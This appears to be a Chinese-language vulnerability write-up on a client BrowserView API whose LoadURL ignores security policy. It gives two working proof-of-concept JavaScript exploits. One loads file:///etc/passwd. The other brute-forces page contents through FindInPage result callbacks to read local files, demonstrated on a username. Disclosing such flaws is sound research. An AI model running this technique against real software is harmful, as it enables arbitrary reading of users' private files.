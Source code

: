 在测试`BrowserView`的功能时，我们发现`BrowserView.LoadURL`调用不会受到任何安全策略的限制，可以加载任意协议任意域名的url，包括`chrome://`、`file://`等权限较高的协议。

PoC:

```javascript
b_view = s_client.BrowserView.Create();
b_view.LoadURL("file:///etc/passwd");
b_view.SetBounds(0, 0, 1000, 1000);
b_view.SetVisible(true);
```

### 获取`BrowserView`中加载的页面内容，实现任意文件读

至此我们已可以通过`LoadURL`加载到本地的任意文件，但是还没有办法直接读取到页面内容。通过测试逆向`BrowserView`对象，发现其提供了`FindInPage`功能可以在页面中搜索特定字符串，并且通过调用`BrowserView.on("find-in-page-results", callback)`可以注册一个回调函数来处理搜索的结果。那么问题变成了：如果可以在页面内搜索一个可控字符串并获取到搜索结果，能否获取到页面的内容？（听起来像是一道CTF题目）

答案是肯定的，最终通过逐字节爆破搜索，我们可以做到任意文件读的效果。

PoC（通过读`file:///home/`获取用户名）:

```javascript
async function is_str_in_bv(bv, s, count) {
  window.stage = 0;
  bv.FindInPage(s, true, true);
  while (window.stage < 3) { await sleep(10); }
  return window.count > count;
}

b_view.on("find-in-page-results", (a, b) => {
  if (window.stage == 0) {
    if (a == 0 && b == 0) { window.stage = 3; window.count = 0; }
    else window.stage++;
  }
  else if (window.stage++ == 2) window.count = a;
});
baseuser = "/";
charset = "abcdefghijklmnopqrstuvwxyz";
while (true) {
  found = false;
  for (c of charset) {
    teststr = c + baseuser;
    count = 0;
    if ("home/".endsWith(teststr)) count = 1;
    if (await is_str_in_bv(b_view, teststr, count)) {
      found = true;
      break;
    };
  }
  if (!found) break;
  baseuser = teststr;
}
alert(baseuser);
```
